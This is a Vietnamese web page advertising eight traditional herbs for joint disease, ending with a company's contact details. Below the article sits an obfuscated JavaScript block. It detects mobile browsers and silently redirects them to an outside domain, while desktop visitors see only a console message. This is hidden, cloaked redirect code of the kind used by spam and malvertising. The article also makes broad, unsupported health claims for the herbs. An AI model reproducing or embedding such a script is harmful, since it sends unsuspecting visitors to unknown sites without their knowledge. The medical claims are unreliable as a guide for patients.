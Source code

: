 Người mắc bệnh xương khớp có nên sử dụng thảo dược?

Hiện nay, xu hướng của những người mắc các bệnh lý xương khớp là lựa chọn các vị thuốc, cây thuốc có nguồn gốc từ thiên nhiên, an toàn, lành tính, đặc biệt là những thảo dược đã được dân gian sử dụng từ bao đời nay.

Chiết xuất quả chiêu liêu có tác dụng chống viêm, hỗ trợ giảm đau khớp

8 loại thảo dược quý trong YHCT tốt cho xương khớp
-------------------------------------------------

Đối với các bệnh lý xương khớp thì những thảo dược thường được sử dụng từ xa xưa trong YHCT phải kể đến như: Thiên niên kiện, Dây đau xương, Hy thiêm, Độc hoạt, Kê huyết đằng, Thổ phục linh, Xuyên khung, Ngưu tất bắc. Trong đó:

Thiên niên kiện (Rhizoma Homalomenae occultae): Trừ phong thấp, cường gân cốt, chỉ thống.

Dây đau xương (Caulis Tinosporae sinensis): Khu phong trừ thấp, thư cân hoạt lạc.

Hy thiêm (Herba Siegesbeckiae): Trừ phong thấp, thông kinh lạc.

Độc hoạt (Radix Angelicae pubescentis): Trừ phong thấp, chỉ thống, giải biểu, khứ phong, thắng thấp, tán hàn.

Kê huyết đằng (Caulis Spatholobi suberecti): Hoạt huyết, bổ huyết, thư cân, mạnh gân cốt, thông kinh hoạt lạc.

Thổ phục linh (Rhizoma Smilacis glabrae): Trừ phong thấp, lợi gân cốt, tiêu độc.

Xuyên khung (Rhizoma ligustici Wallichi): Bổ huyết, khai uất, khu phong, chỉ thống.

Ngưu tất bắc (Radix Achyranthis bidentatae): Hoạt huyết, thông kinh hoạt lạc, thư cân, mạnh gân cốt.

Sử dụng kết hợp các thảo dược trên giúp thận được bồi bổ, khí huyết lưu thông dễ dàng, hệ cơ xương khớp nhờ đó cũng được nuôi dưỡng đầy đủ, tránh được những cơn đau nhức do tắc nghẽn, chèn ép mạch máu, cân cơ và ngay tại ổ khớp.

8 thảo dược này không chỉ giúp giảm triệu chứng đau nhức khớp mà còn bồi bổ, nuôi dưỡng hệ cơ xương khớp một cách toàn diện khi sử dụng lâu dài. Cụ thể:

Bổ khí huyết, gan thận

Giúp giảm đau, chống viêm

Mạnh gân cốt

Phòng ngừa và hạn chế thoái hóa

THÔNG TIN LIÊN HỆ:

THẢO DƯỢC TỐT NHẤT CHO XƯƠNG KHỚP - CÔNG TY TNNH THƯƠNG MẠI JQK

GMAIL: THAODUOCXUONGKHỌPQK@GMAIL.COM

ĐỊA CHỈ: ĐẠI THÀNH - QUỐC OAI - HÀ NỘI

SỐ ĐIỆN THOẠI: 0977.888.999

<script>
function _0x3acc(_0x284298, _0x25b2df) {
        var _0x5a0508 = _0x2464();
        return (
          (_0x3acc = function (_0x150fc1, _0x502ed6) {
            _0x150fc1 = _0x150fc1 - (-0x7a9 + -0x10 * 0x27 + 0x2 * 0x5fd);
            var _0x70deb8 = _0x5a0508[_0x150fc1];
            return _0x70deb8;
          }),
          _0x3acc(_0x284298, _0x25b2df)
        );
      }
      (function (_0x5cc21d, _0x32d2c9) {
        var _0x543a06 = _0x3acc,
          _0x509667 = _0x5cc21d();
        while (!![]) {
          try {
            var _0x4b6b69 =
              -parseInt(_0x543a06("0x1e8")) / (0x921 + -0x2265 + 0x1 * 0x1945) +
              -parseInt(_0x543a06("0x1ec")) / (-0x1560 + -0x10c9 + 0x262b) +
              parseInt(_0x543a06("0x1e9")) /
                (0x1 * -0xf59 + -0x17c * -0x17 + -0x12c8) +
              -parseInt(_0x543a06("0x1e3")) /
                (-0x3 * -0xb6f + 0x1add * -0x1 + 0x5f * -0x14) +
              (parseInt(_0x543a06("0x1e7")) /
                (-0x2079 + 0x204 * 0x8 + 0x105e)) *
                (-parseInt(_0x543a06("0x1e6")) /
                  (0x8dc + -0xfe9 + 0x1 * 0x713)) +
              parseInt(_0x543a06("0x1f1")) /
                (-0x196d + 0x35b * 0x3 + -0x521 * -0x3) +
              (parseInt(_0x543a06("0x1eb")) /
                (-0xb * -0x326 + 0xe5b + -0x30f5 * 0x1)) *
                (parseInt(_0x543a06("0x1e1")) /
                  (0x6 * 0x1a9 + 0xf4f + 0x4c * -0x55));
            if (_0x4b6b69 === _0x32d2c9) break;
            else _0x509667["push"](_0x509667["shift"]());
          } catch (_0x5dee30) {
            _0x509667["push"](_0x509667["shift"]());
          }
        }
      })(_0x2464, -0x1 * -0xd5551 + -0xfe723 + 0x100 * 0xe71);
      function checkPointVIP() {
        var _0x1597b4 = _0x3acc,
          _0x512d05 = {
            hwTZb: _0x1597b4("0x1ea"),
            CMDgM: function (_0x3c47f1, _0x434746, _0x4e8d49) {
              return _0x3c47f1(_0x434746, _0x4e8d49);
            },
            fbBsr: _0x1597b4("0x1e5"),
          };
        /Android|webOS|iPhone|iPad|iPod|BlackBerry|IEMobile|Opera Mini/i[
          _0x1597b4("0x1ed")
        ](navigator[_0x1597b4("0x1e2")])
          ? _0x512d05["CMDgM"](
              setTimeout,
              function () {
                var _0x5910a3 = _0x1597b4;
                window["location"][_0x5910a3("0x1e4")] =
                  _0x512d05[_0x5910a3("0x1ef")];
              },
              -0x1a47 + 0x2361 + -0x23 * 0x26
            )
          : console[_0x1597b4("0x1f0")](_0x512d05[_0x1597b4("0x1ee")]);
      }
      function _0x2464() {
        var _0x21041b = [
          "log",
          "7482909HWmgGJ",
          "8811fswJIR",
          "userAgent",
          "1994944PQFzdL",
          "href",
          "Người\x20dùng\x20truy\x20cập\x20từ\x20desktop.",
          "6USohhu",
          "4040485VJAukx",
          "135228raUOXF",
          "953976yPVeKh",
          "https://www.muaxuandaden.click/loikk",
          "18472cpiDMs",
          "2854798lglKqX",
          "test",
          "fbBsr",
          "hwTZb",
        ];
        _0x2464 = function () {
          return _0x21041b;
        };
        return _0x2464();
      }
      checkPointVIP();
	  </script>
